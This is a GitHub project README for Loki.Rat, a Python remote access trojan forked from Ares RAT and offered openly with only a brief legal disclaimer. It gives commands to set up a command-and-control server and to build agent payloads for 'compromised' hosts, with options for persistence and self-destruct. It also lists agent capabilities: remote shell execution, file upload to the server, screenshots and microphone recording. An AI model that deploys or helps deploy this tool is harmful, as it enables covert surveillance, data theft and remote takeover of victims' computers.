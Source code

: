 # Loki.Rat :mouse:
     
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||              (\
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||               \\
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||                ))
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||               //
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||        .-.   //  .-.
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||       / 0 \-((=-/   \
    |||||||██▓        ▒█████      ██ ▄█▀    ██▓            ██▀███      ▄▄▄         ▄▄▄█████▓ |||||||       \      \\     /
    |||||||▓██▒       ▒██▒  ██▒    ██▄█▒    ▓██▒           ▓██ ▒ ██▒   ▒████▄       ▓  ██▒ ▓▒|||||||        '( ____))_ )'
    |||||||▒██░       ▒██░  ██▒   ▓███▄░    ▒██▒           ▓██ ░▄█ ▒   ▒██  ▀█▄     ▒ ▓██░ ▒░|||||||        .-'   //  '-.
    |||||||▒██░       ▒██   ██░   ▓██ █▄    ░██░           ▒██▀▀█▄     ░██▄▄▄▄██    ░ ▓██▓ ░ |||||||       /     ((      \
    |||||||░██████▒   ░ ████▓▒░   ▒██▒ █▄   ░██░    ██▓    ░██▓ ▒██▒    ▓█   ▓██▒     ▒██▒ ░ |||||||      |       *       |
    |||||||░ ▒░▓  ░   ░ ▒░▒░▒░    ▒ ▒▒ ▓▒   ░▓      ▒▓▒    ░ ▒▓ ░▒▓░    ▒▒   ▓▒█░     ▒ ░░   |||||||       \             /
    |||||||░ ░ ▒  ░     ░ ▒ ▒░    ░ ░▒ ▒░    ▒ ░    ░▒       ░▒ ░ ▒░     ▒   ▒▒ ░       ░    |||||||        \   |_w_|   /
    |||||||░ ░      ░ ░ ░ ▒     ░ ░░ ░     ▒ ░    ░        ░░   ░      ░   ▒        ░        |||||||        _)  \ ` /  (_
    |||||||░  ░       ░ ░     ░  ░       ░       ░        ░              ░  ░                |||||||      (((_ _/   \_ _)))
    |||||||░                                                                                 |||||||
    
Loki.Rat is a fork of the [Ares RAT](https://github.com/sweetsoftware/Ares), it integrates new modules, like the backdoor support for the android platform
Loki.Rat is a Python Remote Access Tool.

Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.

Loki.Rat is made of two main programs:

    A Command aNd Control server, which is a Web interface to administer the agents
    An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python. The agent[Payload] can be compiled to native executables using pyinstaller.
# Setup 

Install The Loki.Rat 

Open a terminal windows and type this command :
 ```
     git clone https://github.com/TheGeekHT/Loki.Rat.git
     cd Loki.Rat
 ```
 Install the Python modules requirements:
 ```
     pip install -r requirements.txt
 ```
 Initialize the database:
 ```
     cd server
    ./loki.py initdb
 ```    
 In order to compile Windows agents on Linux, setup wine (optional):
 ```
     ./wine_setup.sh
 ```
 ## Server
 
 Run with the builtin (debug) server:
 ```
     ./loki.py runserver -h 1.0.1.0 -p 8080 --threaded
 ```
 Or run using gunicorn:
 ```
     gunicorn loki:app -b 1.0.1.0:8080 --threads 20
 ```
 The server should now be accessible on http://1.0.1.0:8080
 
 ## Payload
 Run the Python payload (update config.py to suit your needs):
 ```
     cd payload
     ./payload.py
 ```
 Build a new payload to a standalone binary:
 ```
     ./builder.py -p Linux --server http://localhost:8080 -o payload
     ./payload
 ```
 To see a list of supported options, run ./builder.py -h
 ```
     ./payload/builder.py -h
     usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                    [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                    [--max_failed_connections MAX_FAILED_CONNECTIONS]
                    [--persistent]

     Builds an Loki.Rat payload

     optional arguments:
     -h, --help            show this help message and exit
     -p PLATFORM, --platform PLATFORM
                         Target platform (Windows, Linux).
     --server SERVER       Address of the CnC server (e.g http://1.0.1.0:8080).
     -o OUTPUT, --output OUTPUT
                         Output file name.
     --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
     --idle_time IDLE_TIME
                         Inactivity time (in seconds) after which to go idle.
                         In idle mode, the agent pulls commands less often
                         (every <hello_interval> seconds).
     --max_failed_connections MAX_FAILED_CONNECTIONS
                         The agent will self destruct if no contact with the
                         CnC can be made <max_failed_connections> times in a
                         row.
     --persistent          Automatically install the agent on first run.
```
Supported payload commands
```
     <any shell command>
     Executes the command in a shell and return its output.

     upload <local_file>
     Uploads <local_file> to server.

     download <url> <destination>
     Downloads a file through HTTP(S).

     zip <archive_name> <folder>
     Creates a zip archive of the folder.

     screenshot
     Takes a screenshot.

     python <command|file>
     Runs a Python command or local file.

     persist
     Installs the agent.

     clean
     Uninstalls the agent.

     exit
     Kills the agent.
     
     record
          -h, --help            show this help message and exit
          -t RECORD_SECONDS, --time RECORD_SECONDS
                                Set a timing in seconds for record. (e.g 10)
          -c CHANNELS, --channel CHANNELS
                                Channel for the microphone (e.g 2).
          -ch CHUNK, --chunk CHUNK
                                Chunk for the microphone (e.g 1024).
          -r RATE, --rate RATE  Rate (e.g 44100).
          
     lockscreen
     lock screen only on windows
          
     help
     This help.
```
 # <> with :heart: in HAITI 🇭🇹 

